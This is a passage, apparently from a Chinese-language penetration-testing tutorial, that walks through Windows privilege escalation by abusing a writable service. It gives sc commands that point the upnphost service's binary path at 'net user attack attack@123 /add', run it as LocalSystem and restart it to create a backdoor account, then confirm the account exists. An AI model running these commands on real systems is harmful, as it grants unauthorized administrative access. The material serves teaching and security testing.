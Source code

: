 1.  现在我们将更改服务的二进制路径，因为应用程序已经给予了所有访问权限。在需要恢复到原始状态时，保留服务配置的副本。现在在终端中输入以下命令：

```
sc config upnphost binpath= "net user attack attack@123 /add"
      sc config upnphost obj= ".\LocalSystem" password= ""

```

输出将如下截图所示：

![操作步骤...](img/image_09_018.jpg)

1.  我们看到我们的命令已成功执行。现在让我们通过发出以下命令来验证并重新启动服务：

```
sc qc upnphost
      net start upnphost

```

输出将如下截图所示：

![操作步骤...](img/image_09_019.jpg)

1.  完成后，我们会看到一个服务无响应的错误。然而，这是注定会发生的：由于二进制路径不正确，它将尝试使用系统权限执行二进制路径。在这种情况下，它应该创建一个用户。让我们通过发出以下命令来检查：

```
net user

```

输出将如下截图所示：
